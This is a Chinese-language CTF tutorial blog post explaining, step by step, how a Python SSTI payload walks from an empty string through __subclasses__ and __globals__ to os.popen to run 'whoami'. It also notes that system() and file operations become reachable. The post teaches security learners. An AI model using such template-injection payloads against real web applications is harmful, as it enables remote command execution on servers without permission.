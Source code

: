 ```yaml
---
layout: post
title: CTF---Pythonweb SSTI的payload构造思路研究(基础篇)
author: may1as
date: 2022-07-24
categories: [PythonSEC, SSTI]
tags: [PythonSSTI]
---
```


> 在freebuf上发过，这里的是精简入门版

<a name="Q472p"></a>
## 文前漫谈
是一篇基础篇嘛，给新同学入门用，从payload的角度看看SSTI
<a name="kIZVB"></a>

## 从原点出发
你会发现，大多数payload总是从下面这段代码出发，延伸出各种各样的花样。而这一步的目的是得到当前模块中所有可以利用的类。得到的结果跟当前模块（py文件）import的库也是有关系的。
```python
''.__class__.__base__.__subclasses__()
```
详细解释：

- `''`，是一个字符串对象，`type('')的结果是<class 'str'>`，在python中，一切皆对象，再比如`type([])的结果是<class 'list'>`，因为`[]`是数组的标志
- `__class__`，是这个对象所属的类，到这一步，`''.__class__`的结果仍然是`<class 'str'>`

`''.__class__`和`''`，区别在于前者是个类，后者是个对象

- `__base__`，是获得指定类的基类（父类），这里`''.__class__.__base__`的结果是`<class 'object'>`，因为在python3中，所有类都默认继承了Object类。
- `__subclasses__()` ，`__subclasses__()`是`Object`类的静态方法，获得指定类的所有子类，返回一个列表。因为是个方法，所以后面的括号不能忘了带。在这个列表里，拿到了所有继承Object类的子类，而在python3里，几乎所有的内建类都继承了Object类，所以在下一步的构造中几乎所有的内置类我们都能找到并利用。

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22999319/1658027320103-c47a63d2-1126-4788-8dcb-e350d26f90e1.png#clientId=ufec6c6e4-c976-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=336&id=uf63bd69d&margin=%5Bobject%20Object%5D&name=image.png&originHeight=874&originWidth=1844&originalType=binary&ratio=1&rotation=0&showTitle=false&size=1318807&status=error&style=none&taskId=ufa0ff5ba-896e-4d9f-93e2-c4379f4a6b4&title=&width=708)

<a name="X4tvK"></a>
## 拿一个Payload研究
尝试直接在代码中（最好在flask环境下）<br />`print("".__class__.__base__.__subclasses__()[128].__init__.__globals__['popen']('whoami').read())`。<br />是不是成功执行`"whoami"`了。也有可能你那报错了。比如，这是因为你从`''.__class__.__base__.__subclasses__()`这一步拿到的子类列表，索引为`128`的类对应的不是`os._wrap_close类`，因为从这一步我们没有进入**os模块**所在的地址空间，就不能通过`__globals__`得到**os模块**已经加载的可利用类<br />![](https://cdn.nlark.com/yuque/0/2022/jpeg/22999319/1664075389705-4ff2fbe1-5760-4046-b68c-a83c1c2ba0d3.jpeg#clientId=ucdbc9d90-ae7f-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&id=u0f51aebb&margin=%5Bobject%20Object%5D&originHeight=142&originWidth=690&originalType=url&ratio=1&rotation=0&showTitle=false&status=error&style=none&taskId=u6d61a53f-0238-4251-8739-4f4b157f134&title=)
> 补充一下` __globals__`
> Python 中的每一个函数都拥有一个 __globals__ 属性，储存着当前模块全局可读的量。以一个字典的形式，建立了一种映射的关系。它必须由一个函数方法调用，即不论是test.__globals__，还是a.__globals__。只要是在一个模块（同一个py文件）内结果都是一样，因为打印的都是全局可读的量。
> ![](https://cdn.nlark.com/yuque/0/2022/jpeg/22999319/1664075408196-37266b0f-9e3f-4bd3-a2fc-c25ade391b60.jpeg#clientId=ucdbc9d90-ae7f-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&id=u3db1dc59&margin=%5Bobject%20Object%5D&originHeight=179&originWidth=690&originalType=url&ratio=1&rotation=0&showTitle=false&status=error&style=none&taskId=u052c8644-01de-4304-90d0-274b4dab973&title=)


```python
#payload = "".__class__.__base__.__subclasses__()[128].__init__.__globals__['popen']('whoami').read()

a= ""
b= "".__class__
c= "".__class__.__base__
d= "".__class__.__base__.__subclasses__()
e= "".__class__.__base__.__subclasses__()[128]
f= "".__class__.__base__.__subclasses__()[128].__init__
g= "".__class__.__base__.__subclasses__()[128].__init__.__globals__
h= "".__class__.__base__.__subclasses__()[128].__init__.__globals__['popen']('whoami')
i= "".__class__.__base__.__subclasses__()[128].__init__.__globals__['popen']('whoami').read()

print(a,b,c,d,e,f,g,h,i)
```
![](https://cdn.nlark.com/yuque/0/2022/jpeg/22999319/1664075444684-877e41fc-c24f-46f9-8fe4-e7d04d2646d8.jpeg#clientId=ucdbc9d90-ae7f-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&id=udb9f8819&margin=%5Bobject%20Object%5D&originHeight=142&originWidth=690&originalType=url&ratio=1&rotation=0&showTitle=false&status=error&style=none&taskId=ue783536e-842a-4528-89d7-200216a78a9&title=)<br />按照上面的字母开始介绍吧。a到d在前面已经介绍过。这里从e开始。

- `e="".__class__.__base__.__subclasses__()[128]`

`e="".__class__.__base__.__subclasses__()[128]`的结果是`<class 'os._wrap_close'>`，所以你应当了解，使用这个payload的时候，这个128是特殊的，它得跟随着**os._wrap_close类**的位置变化（从零开始数，第129个是os._wrap_close类），这个payload也正是利用的os._wrap_close这个类。到这一步，`"".__class__.__base__.__subclasses__()[128]`其实就相当于os._wrap_close这个类了。

- `f="".__class__.__base__.__subclasses__()[128].__init__`
- `g= "".__class__.__base__.__subclasses__()[128].__init__.__globals__`

这一段的依据主要是前面的`__globals__`属性了，为什么要先调用`__init__`，因为`__globals__`必须依靠方法才能调用，打印全局可读的量。从上面的截图看，这一步就得到os模块全局可读的量了。注意是os模块，不是其他模块。从下面截图里的一些细节不能看出，比如`'__name__': 'os'`，可以看见所处模块的名称。<br />![](https://cdn.nlark.com/yuque/0/2022/jpeg/22999319/1664075486011-ff664dff-013c-48b5-a7a0-358ec60b006f.jpeg#clientId=ucdbc9d90-ae7f-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&id=u8b3c76fe&margin=%5Bobject%20Object%5D&originHeight=338&originWidth=690&originalType=url&ratio=1&rotation=0&showTitle=false&status=error&style=none&taskId=uf144781c-bc03-431d-82f3-185a32445e7&title=)<br />分析一下这一步的结果。这一步得到是一个字典，像下面这样
```python
'_unsetenv': <function <lambda> at 0x0000021A10612438>, 'getenv': <function getenv at 0x0000021A106129D8>
```
大概就是一种映射关系，函数名与所在地址空间的映射，你可以尝试用keys()，打印键试试<br />![](https://cdn.nlark.com/yuque/0/2022/jpeg/22999319/1664075485941-3a546d96-40cc-4fb5-8f0d-1c616c1128bb.jpeg#clientId=ucdbc9d90-ae7f-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&id=u25cde21a&margin=%5Bobject%20Object%5D&originHeight=165&originWidth=690&originalType=url&ratio=1&rotation=0&showTitle=false&status=error&style=none&taskId=u662b2758-5376-4539-bc55-8f6ec532b4b&title=)<br />你看，可以利用的函数是太多了。这里我们利用的是`'popen()'`这个函数，但是只要是在上面的函数，都可以利用，`system()`，甚至一些**os库**的常见函数，都能进行调用。<br />举个例子，调用上面框出来的os这个库的system()函数，甚至更加简单。一些读，写的操作都可以借助os这个库实现。<br />![](https://cdn.nlark.com/yuque/0/2022/jpeg/22999319/1664075486026-4efd9fd5-1539-432c-855c-d88004393e12.jpeg#clientId=ucdbc9d90-ae7f-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&id=ud881e957&margin=%5Bobject%20Object%5D&originHeight=125&originWidth=690&originalType=url&ratio=1&rotation=0&showTitle=false&status=error&style=none&taskId=u93ae0b24-0056-451f-a854-447b0cddb0e&title=)
<a name="B846K"></a>
## 文末补充
前面说过`''.__class__.__base__.__subclasses__()`得到的继承Object类的一个列表，数量与`import`的库有关。再谈谈吧<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/22999319/1658063148544-66e6e00b-f77f-4ede-ab78-9f63ed9428e1.png#clientId=ua06a8262-0111-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=262&id=u9d1053e5&margin=%5Bobject%20Object%5D&name=image.png&originHeight=465&originWidth=990&originalType=binary&ratio=1&rotation=0&showTitle=false&size=123422&status=error&style=none&taskId=u16caa168-be95-4275-bdd2-ceb29a921a5&title=&width=557)<br />不导包的时候，或者导`python`内置模块的时候。它的数量不会变化，导入一个外置包的时候，继承Object类的子类就变多了。好在这里不会影响到我们内置类的顺序，拿这个payload来说<br />`"".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__['popen']('whoami').read()`，如果第129（从零开始）个不是`os._wrap_close类`，那接下来的使用就会发生错误。你可以替换成`129`输出试试。<br />但是在有些题目环境中，重启环境可能会影响拿到类的顺序的。这也是你直接使用别人payload打不通的原因<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/22999319/1658063235095-d10da392-6cfa-4080-8545-70cc16fa8e77.png#clientId=ua06a8262-0111-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=251&id=ue9e27e0a&margin=%5Bobject%20Object%5D&name=image.png&originHeight=458&originWidth=1074&originalType=binary&ratio=1&rotation=0&showTitle=false&size=132807&status=error&style=none&taskId=udefa99bb-e680-4e4e-bf58-e629007d58c&title=&width=588)



